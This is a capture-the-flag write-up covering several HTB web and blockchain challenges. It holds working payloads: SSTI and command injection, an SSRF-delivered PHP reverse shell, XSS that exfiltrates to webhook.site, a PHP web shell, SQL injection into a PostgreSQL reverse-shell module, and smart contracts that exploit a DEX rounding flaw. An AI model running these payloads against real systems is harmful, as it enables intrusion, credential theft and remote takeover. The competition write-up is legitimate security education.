

This year saw a significant improvement to PwnSec's performance. We moved from 77th last year to achieving 15th this year.

Below is a short account of each of the web challenges I solved. This is rather summarized compared to my usual comprehensive walkthroughs due to time constraints on my side. Apologies for that.

## Web: Trial By Fire - Very Easy

A Jinja2 SSTI that is triggered in the `/battle-report` based on your warrior's name:
```python
import httpx

url = 'http://83.136.249.101:33732'

with httpx.Client(base_url=url) as client:
    r = client.post('/begin', data=dict(warrior_name="{{lipsum.__globals__.os.popen('cat flag.txt').read()}}"))
    r = client.post('/battle-report', data='damage_dealt=68&damage_taken=105&spells_cast=2&turns_survived=3&outcome=defeat&battle_duration=26.945')

    print(r.text)
```

`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_e9f8c148ac7f49bb3d2d00093473056d}`

## Web: Whispers of The Moonbeam - Very Easy

Simple command injection in the `gossip` command, some initial attempts:


We notice `gossip` displays an `ls`-like output. Command injection:
```
gossip ; cat flag.txt
```

`HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_8bafcd34a8f4593225ff0b8ee006ac88}`

## Web: Cyber Attack - Easy

Solved by my teammates **@zAbuQasem** and **@0xNEF**.

Header Injection to SSRF to access the protected `/attack-ip` endpoint.

We then abuse IPv6 parsing vulnerability in Python's `ipaddress` library to introduce a command injection in the `/cgi-bin/attack-ip` endpoint via Scope ID.

Scope IDs append extra information to an IPv6 address using a `%` suffix such as `::1%eth1` for example.

We can use that to deliver a PHP reverse shell:
```http
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/yyy%0d%0aContent-Type:+proxy:http://127.0.0.1:80/cgi-bin/attack-ip%3ftarget=::1%||php%2b-r%2b'$sock%253dfsockopen("4.tcp.eu.ngrok.io",19505)%253bexec("bash%2b<%25263%2b>%25263%2b2>%25263")%253b'%26name=aaa%0d%0a%0d%0a HTTP/1.1


```

And... we get a shell back.

`HTB{h4ndl1n6_m4l4k4r5_f0rc35}`

## Web: Eldoria Realms - Medium

Ruby class pollution to gRPC command injection via `gopher://` SSRF. I used these two references:
1. https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html
2.  https://bkubiak.github.io/grpc-raw-requests/

We can connect to the gRPC service locally using `grpcurl` or `grpcui`. I used `grpcui`:
```bash
go install github.com/fullstorydev/grpcui/cmd/grpcui@latest
grpcui -proto .\challenge\live_data.proto  -plaintext 127.0.0.1:50051
```

It looks like this:


I set up Wireshark and filtered for messages on `tcp/50051`, as per the gRPC reference's tip:
> If you don’t see packets in HTTP2 protocol, click “Analyze” -> “Decode As…”. Then, add TCP port X with HTTP2 protocol, where X is port of gRPC server (e.g. 8083).

1. I grabbed every HTTP/2 payload, by right click, "Copy TCP payload" to make up the complete packet we want to send.
2. We use the Ruby class pollution to poison `realm_url` and inject our payload.
3. We use `gopher://`, a legacy protocol supported by `curl` because it allows us to send raw TCP packets over the wire.

You can see me here doing some debugging with `sleep` statements. It seemed like the HTTP/2 packet was getting corrupted: 


We should have `PRI` not `50RI` in the output above.

I tried prepending the `gopher://` payload with an extra character and it worked. My script:
```python
import httpx

url = 'http://94.237.63.165:53622'
# url = 'http://localhost:1337'

r = httpx.get(f'{url}/player-status')
print(r)

# raw grpc http2 bytes from wireshark
magic    = '505249202a20485454502f322e300d0a0d0a534d0d0a0d0a'
settings = '000000040000000000000006040000000000000500004000000000040100000000000000040100000000'
headers = '000061010400000001838645986283772af9cddcb7c691ee2d9dcc42b17a7293ae328e84cf418b089d5c0b8170dc6c006c3f5f8b1d75d0620d263d4c4d65647a8a9acac8b4c7602bb815c140027465864d833505b11f408e9acac8b0c842d6958b510f21aa9b839bd9ab'
# ip=; curl hook -d "x=$(cat /fl*)"
data = '00005b00010000000100000000560a543b6375726c2068747470733a2f2f776562686f6f6b2e736974652f62666661383561392d633139642d346538632d623630392d336565653436363038313633202d642022783d2428636174202f666c2a29222023'

payload = magic + settings + headers + data

encoded = ''
for i in range(0, len(payload), 2):
    encoded += '%' + payload[i:i+2]

print(encoded)

# https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html
r = httpx.post(f'{url}/merge-fates', json={"class":
                                           {"superclass":
                                            {"realm_url": "gopher://127.0.0.1:50051/a" + encoded}}})
print(r.text)

r = httpx.get(f'{url}/connect-realm', timeout=10)
print(r.text)
```

`HTB{p0llut3_4nd_h1t_pr0toc0lz_w_4_sw1tch_b3c81179fbcfe17e57f49e24d64f1240}`

## Web: Eldoria Panel - Medium

There was a mutation XSS in DOMPurify 3.1.2 as shown here by `mizu.re`:
- https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.2-bypass

```html
<form
  action="http://127.0.0.1:80/api/updateStatus"
  method="POST"
  enctype="text/plain"
>
  <input id="inp" type="text" name='{"status": "<form id' value="" />
</form>

<script>
  const payload = btoa`
  setTimeout(() => {
    fetch('http://webhook.site/bffa85a9-c19d-4e8c-b609-3eee46608163?exfil='+apiKey.textContent)
  }, 1000)
`;

  const xss = `\
\\"x \\">
<svg><style><a id=\\"</style>\\"></a></style></svg>
</form>
<input form=\\"x\\" name=\\"namespaceURI\\">\"}`;

  window.addEventListener("load", async () => {
    inp.value = xss;
    document.forms[0].submit();
  });
</script>
```

I used this to successfully steal the admin's API key. However, as I noticed later, the `X-API-Key` logic was incorrectly implemented and served no purpose. We could access admin functionality directly and without it.

In one of the admin routes, `file_get_contents` is used against user-controlled input, however `file_exists` is used to validate the input beforehand. Since `php://` and `http://` wrappers [do not support `stat()` functions](https://www.php.net/manual/en/wrappers.php), we can not use these wrappers. A URL scheme that supports `stat()` is `ftp://`. This means we can deliver our payload via FTP.

We can't use `ngrok` or single port forwarding techniques because my intended way of hosting the FTP server involved `twisted` which uses FTP passive mode and subsequentially requires two ports (control port at 21 and data port agreed upon during file transmission). That's why we must use an external server (or enforce FTP in active mode - not sure if that can be enforced server-side).

On a throwaway VPS, I hosted `twistd` FTP, placing a web shell at `login.php`:
```bash
twistd -n ftp -p 21 -r .
```

```php
// login.php
<?php echo `$_GET[1]`; ?>
```

Modify the template path to an anonymous FTP share:
```bash
 curl http://94.237.58.215:42557/api/admin/appSettings -b PHPSESSID=62737133bf4e771f2bb1ddd694545a83 -H 'X-API-Kea7242928e01a' -d '{"template_path": "ftp://anonymous@mydomain.com"}'
```

Visiting `/?1=cat /flag.txt`, we get our flag.

`HTB{p41n_c4us3d_by_th3_usu4l_5u5p3ct_d16c96bc407976fddf4b45d3ec032cf6}`

## Web: Aurors Archive - Hard

After analyzing the OAuth server provided, I found an unintended that completely ignores the OAuth flow. There was an XSS via SSTI in the submissions and bids endpoint:
```html


<div id="submissions-data" data-submissions='{{ submissions | dump | safe }}'></div>
```

The author probably thought that `dump` (Convert data to a JSON string) will prevent bypass? Not sure.

Anyways, we can escape by submitting a bid with the following payload, using single quotes:
```html
'></div><div a='
```


The XSS reflected in `/my-submissions`, which made it difficult to deliver to admin. I played around with different CSRF techniques to get the admin to poison his own page before visiting it, but all attempts ultimately failed due to `SameSite=Lax`.
```html
<form
  action="http://94.237.58.253:42840/api/submissions"
  method="POST"
  enctype="text/plain"
>
  <input id="inp" name='{"x":"' />
</form>

<script>
if (!new URLSearchParams(location.search).has('2nd')) {
 let payload = `1","name":"'>r.text()).then(page => fetch('http://webhook.site/hook', {method: 'POST', body: page}))\" /><div d='",
"description":"a",
"url":"https://webhook.site/hook?2nd=1",
"category":"research"}`;

  inp.value = payload;
  document.forms[0].submit();
}
</script>
```

I ended up using the `bids` endpoint which was publicly accessible and provided intuitive delivery.

However, since there is a length check on `bids`:
```js
    if (bid.length > 10) {
      return res.status(400).json({ success: false, message: 'Too long' });
    }
```

We can easily bypass that by sending our payload inside a JSON array, allowing us to send an arbitrarily large payload.

We can send a payload like this, allowing us to perform a CSRF and exfiltrate the internal `/tables` admin endpoint:
```html
POST /api/auctions/6/bids HTTP/1.1
Host: 94.237.58.253:42840
Content-Length: 184
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://94.237.58.253:42840
Referer: http://94.237.58.253:42840/auction/1
Accept-Encoding: gzip, deflate, br
Cookie: connect.sid=s%3AjV_r-rE5ZuUUPYqMHWa9OCS63L2azs9v.X89Ti%2BqNWsOKA%2FOGuoG0OkVbDHbWNZBMMaR379zYeZo
Connection: keep-alive

{"bid":["'></div><script>fetch('/tables').then(r=>r.text()).then(page => fetch('http://webhook.site/bffa85a9-c19d-4e8c-b609-3eee46608163', {method: 'POST', body: page}))</script><!--"]}
```

```js
{
  "success": true,
  "tables": [
    {
      "table_name": "auctions"
    },
    {
      "table_name": "bids"
    },
    {
      "table_name": "submissions"
    },
    {
      "table_name": "users"
    }
  ]
}
```

Our XSS works.

We notice an SQL injection in the `/table` endpoint. We can grab the `users` table and the SQL version using:
```sql
users" UNION SELECT 1, null, null -- 
```

And boom:
```js
[
  {
    "id": 1,
    "username": "admin",
    "password": "hOS7tz6kSDgn0wE0SIHXUKv6U5ku9Fe71Ik4OL4dMXg="
  },
  {
    "id": 2,
    "username": "aelmo",
    "password": "oauth_default_password"
  },
  {
    "id": 1,
    "username": null,
    "password": "PostgreSQL 17.4 on x86_64-alpine-linux-musl, compiled by gcc (Alpine 14.2.0) 14.2.0, 64-bit"
  }
]
```

I searched for techniques for a postgres RCE using SELECT statements, before my teammate **Logan0x** found this great walkthrough:
- https://adeadfed.com/posts/postgresql-select-only-rce/

Essentially, I spun up `ngrok` and used the exact same postgres module demonstrated in the article. I used the `ngrok` endpoint's IP in there too:
```c
include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _init() {
    int port = 13492;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("3.64.4.198");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execvp("sh", argv);
}
```

To compile it for the target environment, I found the postgres development package name [for Alpine](https://alpine.pkgs.org/3.21/alpine-main-x86_64/postgresql17-dev-17.4-r0.apk.html), then compiled it within our local Docker environment:
```bash
apk add postgresql17-dev

gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
ls
payload.c           payload.so
```

This allows us to create a small, shared executable that will still run correctly in the target environment. I copied the `.so` from my local Docker container.

The demonstrated technique makes use of the postgres `lo_*` function family which deal with "large objects" and contains means to read and write binary data as well as export them to the file system.

We use this to overwrite the postgres configuration with one that loads our generated malicious shared object `.so` file:
```c
listen_addresses = '*'
max_connections = 100

shared_buffers = 128MB
dynamic_shared_memory_type = posix

max_wal_size = 1GB
min_wal_size = 80MB

log_timezone = 'Etc/UTC'

datestyle = 'iso, mdy'
timezone = 'Etc/UTC'

lc_messages = 'en_US.utf8'
lc_monetary = 'en_US.utf8'
lc_numeric = 'en_US.utf8'
lc_time = 'en_US.utf8'

default_text_search_config = 'pg_catalog.english'

dynamic_library_path = '/tmp:$libdir'
session_preload_libraries = 'payload.so'
```

We then run a series of SELECT-only SQL commands to upload our configuration, our malicious `.so` and finally call `pg_reload_conf()`.

The following code provides a summary of the exploit. First, we call `xss()` to exfiltrate the admin's password.

We then acquire an admin cookie and use it for the SQL injection step. This is done for convenience to perform the SQL injection directly instead of through the bot via XSS.

```python
import httpx, json

url = 'http://94.237.58.253:44991'
cookie = 's%3AP_uq7DzlnuZpJ4489vj8Dozvf3k9ESL9.LeFxOx1UafUc%2FzGVBYTl661z8OTSL2w1L7b1z5FBV9k'

auction_id = 8

c = httpx.Client(cookies={'connect.sid': cookie})

def xss():
    r = c.post(f'{url}/api/auctions/{auction_id}/bids', json=dict(
        bid = [
            ''''></div><script>\
function inject(step, injection) {setTimeout(() => {fetch('/table', {method: 'POST',body: JSON.stringify({tableName: injection}),headers: {'Content-Type': 'application/json'}}).then(r=>r.text()).then(page => fetch('http://webhook.site/hook', {method: 'POST', body: page}))}, step*300)};inject(0, `users" UNION SELECT 1, null, null -- `)\
</script><!--\
'''
        ]
    ))
    r.raise_for_status()
    print(r)

    r = c.post(f'{url}/api/submissions', json={"name": "a",
                                    "description": "b",
                                    "url": f"http://127.0.0.1:1337/auction/{auction_id}",
                                    "category": "c"})
    r.raise_for_status()
    print(r)

def sqli(payload):
    r = c.post(f'{url}/table', json={
        'tableName': payload
    })

    data = r.json()['results']
    return data
    
print('[*] Payload started')

# 1. find config loc
sqli('sourcefile FROM pg_file_settings')

# 2. load malicious config from file
sqli(f"CAST((SELECT lo_from_bytea(133338, decode('{malicious_config}', 'hex'))) AS text)")

# 3. write malicious file to disk
sqli("CAST((SELECT lo_export(133338, '/var/lib/postgresql/data/postgresql.conf')) AS text)")

# 4. get version
sqli("version()")
sqli(f"CAST((SELECT lo_from_bytea(133340, decode('{so_base64}', 'base64'))) AS text)")
sqli("CAST((SELECT lo_export(133340, '/tmp/payload.so')) AS text)")
sqli("CAST((SELECT pg_reload_conf()) AS text)")
```

On the next SQL query, we get a hit:


`HTB{l00k_0ut_f0r_0auth_155u35}`

> Note: I later confirmed with an HTB admin and he said:


## Blockchain: Eldorion - Very Easy
This was my first time ever working with smart contracts or blockchain challenges. ChatGPT did ease the transition and I realize how similar it is to traditional "Web 2.0" tasks.

It's just the same code review and logic flaws, indeed with a sweet twist, but it is still the same.

This challenge had `Eldorion`, who had his health reset at the start of every block. I deployed a smart contract that performed multiple attacks in a single transaction, essentially defeating `Eldorion`.

Receiving our connection information:
```bash
nc 94.237.54.176 59994 -vn
(UNKNOWN) [94.237.54.176] 59994 (?) open
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 1
[*] No running node found. Launching new node...

Player Private Key : 0x9d5365fea16949ff1bda52f514b69ec95360bf9bb791bfc6da9c135f5bc7cbc9
Player Address     : 0xEEF218db05733A58c2904885eC17643a69Ef2b49
Target contract    : 0x84346FaE15aaBC3A7093c97C4FaF28c1505D4B4d
Setup contract     : 0x329fEc32949B9B9b6731eB05A9e70d3758310782
```

Our exploit smart contract:
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract PoCAttack {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    // This function bundles three attack calls in one transaction.
    function defeat() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Putting it all together:
```bash
# we must add --broadcast to actually run it on the blockchain
forge create --broadcast --rpc-url http://94.237.54.176:56612 --private-key 0x9d5365fea16949ff1bda52f514b69ec95360bf9bb791bfc6da9c135f5bc7cbc9 PoCAttack --constructor-args 0x84346FaE15aaBC3A7093c97C4FaF28c1505D4B4d
[⠊] Compiling...
No files changed, compilation skipped
Deployer: 0xEEF218db05733A58c2904885eC17643a69Ef2b49
Deployed to: 0xdF984b43Be2507f4dA173D0b51B00248cf9B323c
Transaction hash: 0xc996cdbc61709288a99d188fe725bf4cde88ae9213b6c150c9c00991296666b2

# execute our contract using our `Deployed to` address from above
cast send 0xdF984b43Be2507f4dA173D0b51B00248cf9B323c "defeat()" \
  --rpc-url http://94.237.54.176:56612 \                                                       
  --private-key 0x9d5365fea16949ff1bda52f514b69ec95360bf9bb791bfc6da9c135f5bc7cbc9

blockHash            0x97cf5db1ceff37e36419bf38c20363d7c0661acc51f3201ffec236de04c21efc
blockNumber          8
contractAddress      
cumulativeGasUsed    53940
effectiveGasPrice    1000000000
from                 0xEEF218db05733A58c2904885eC17643a69Ef2b49
gasUsed              53940
logs                 [{"address":"0x84346fae15aabc3a7093c97c4faf28c1505d4b4d","topics":["0xebade57dfc06b2a07c4dc88f21eda0fe7af62c34f1a6b4b56e09b32a2bda0cc7"],"data":"0x000000000000000000000000df984b43be2507f4da173d0b51b00248cf9b323c","blockHash":"0x97cf5db1ceff37e36419bf38c20363d7c0661acc51f3201ffec236de04c21efc","blockNumber":"0x8","blockTimestamp":"0x67dd9a40","transactionHash":"0xd77ad71cda0faa7e1357510248b0fe83c99cac22043bb63d1bdf2e4666140703","transactionIndex":"0x0","logIndex":"0x0","removed":false}]
logsBloom            0x00000000000000000000000000000000000000000000000000000000000000000000000000040000000000000000000000000040000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000008000000000000000000000000002000000000000000000000000000000800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010
root                 
status               1 (success)
transactionHash      0xd77ad71cda0faa7e1357510248b0fe83c99cac22043bb63d1bdf2e4666140703
transactionIndex     0
type                 2
blobGasPrice         1
blobGasUsed          
authorizationList    
to                   0xdF984b43Be2507f4dA173D0b51B00248cf9B323c
```

We should've defeated Eldorion, let's check:
```bash
nc 94.237.54.176 59994 -vn
(UNKNOWN) [94.237.54.176] 59994 (?) open
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 3
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

`HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}`

## Blockchain: HeliosDEX - Easy

HeliosDEX was a bit more subtle. It involved a currency exchange. Again, ChatGPT identified the vulnerability for me:
```js
function swapForHLS() external payable underHeliosEye {
	uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3));
	uint256 fee = (grossHLS * feeBps) / 10_000;
	uint256 netHLS = grossHLS - fee;
	
	require(netHLS <= reserveHLS, "HeliosDEX: Helios grieves that the HSL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
	

	reserveHLS -= netHLS;
	heliosLuminaShards.transfer(msg.sender, netHLS);

	emit HeliosBarter(address(heliosLuminaShards), msg.value, netHLS);
}
```

This first line in `swapForHLS()` is suspicious:
```js
uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3));
```

The [OpenZeppelin Math library](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/Math.so) defines `Math.Rounding` which accepts:
```js
enum Rounding {
	Floor, // Toward negative infinity
	Ceil, // Toward positive infinity
	Trunc, // Toward zero
	Expand // Away from zero
}
```

`Math.mulDiv` is defined as follows:
```js
/**
 * @dev Calculates x * y / denominator with full precision, following the selected rounding direction.
 */
function mulDiv(uint256 x, uint256 y, uint256 denominator, Rounding rounding) internal pure returns (uint256) {
	return mulDiv(x, y, denominator) + SafeCast.toUint(unsignedRoundsUp(rounding) && mulmod(x, y, denominator) > 0);
}
```

By using `Math.Rounding(3)`, we set it to expand "away from zero", this can lead to catastrophic impact on a currency exchange :)

Essentially, we can abuse the rounding error from `Math.round(3)` to exchange ETH for HLS and refund back at a profit margin.

We deploy this smart contract to exploit it (Thanks ChatGPT):
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IHeliosDEX {
    function swapForHLS() external payable;
    function oneTimeRefund(address item, uint256 amount) external;
    function reserveHLS() external view returns (uint256);
    function heliosLuminaShards() external view returns (address);
}

interface IHLS {
    function approve(address spender, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
}

contract ProfitAttack {
    IHeliosDEX public dex;
    IHLS public hls;
    address public player;

    constructor(address _dex, address _hls, address _player) {
        dex = IHeliosDEX(_dex);
        hls = IHLS(_hls);
        player = _player;
    }

    function attack() external payable {
        require(msg.value > 0, "Send ETH");

        // Buy HLS cheaply using swapForHLS
        dex.swapForHLS{value: msg.value}();

        // Approve refund
        uint256 balance = hls.balanceOf(address(this));
        hls.approve(address(dex), balance);

        // Refund once for ETH profit
        dex.oneTimeRefund(address(hls), balance);

        // Send profit to player
        payable(player).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

We can then connect:
```bash
nc 83.136.251.141 -vn 42695
(UNKNOWN) [83.136.251.141] 42695 (?) open
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 1 
[*] No running node found. Launching new node...

Player Private Key : 0xc031faffc780a4d9d48c49edcd21535008da82ee2ec73269444db08c938611d0
Player Address     : 0x5a60330e15d511c7c93932Da9eEAef0ABd40F3D6
Target contract    : 0x0cC0e81b5B6a9F819cDA840Fe0316885fb9d983d
Setup contract     : 0x0D7b82AD0C19AD24b76230F280fCb1B660F91442
```

Setup our environment:
```bash
export PRIVATE_KEY=0xc031faffc780a4d9d48c49edcd21535008da82ee2ec73269444db08c938611d0
export RPC_URL=http://83.136.251.141:42695

# we have 12 ETH, we need to reach 20 ETH to win:
cast balance 0x5a60330e15d511c7c93932Da9eEAef0ABd40F3D6 --rpc-url $RPC_URL
12000000000000000000

# we get address of HLS from target contract
cast call --rpc-url $RPC_URL 0x0cC0e81b5B6a9F819cDA840Fe0316885fb9d983d  "heliosLuminaShards()(address)"
0x06e30350e4ae7B421b6391DEDe99cB353AaeCCD5
```

We use a simple bash loop to deploy our contract, grab the "Deployed to" address and execute it with a 0.1 ETH amount to abuse the rounding error:
```bash
#!/bin/bash
for i in {1..120}; do
attack_contract=`forge create ProfitAttack \
  --private-key $PRIVATE_KEY \
  --rpc-url $RPC_URL --broadcast \
  --constructor-args 0x0cC0e81b5B6a9F819cDA840Fe0316885fb9d983d 0x06e30350e4ae7B421b6391DEDe99cB353AaeCCD5 0x5a60330e15d511c7c93932Da9eEAef0ABd40F3D6 | grep 'Deployed to' | cut -d ' ' -f3`
echo $attack_contract

cast send $attack_contract "attack()" \
  --value 0.01ether \
  --private-key $PRIVATE_KEY \
  --rpc-url $RPC_URL;

done
```


We can see our profits coming while our DHS store remaining untouched:
```bash
cast balance 0x5a60330e15d511c7c93932Da9eEAef0ABd40F3D6 --rpc-url $RPC_URL
19813764055000000000

cast balance 0x5a60330e15d511c7c93932Da9eEAef0ABd40F3D6 --rpc-url $RPC_URL
20169592103000000000
```

At 20 ETH, we satisfy the win condition and grab our flag:
```bash
nc 83.136.251.141 -vn 42695                                               
(UNKNOWN) [83.136.251.141] 42695 (?) open
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 3
HTB{0n_Heli0s_tr4d3s_a_d3cim4l_f4d3s_and_f0rtun3s_ar3_m4d3}
```

`HTB{0n_Heli0s_tr4d3s_a_d3cim4l_f4d3s_and_f0rtun3s_ar3_m4d3}`

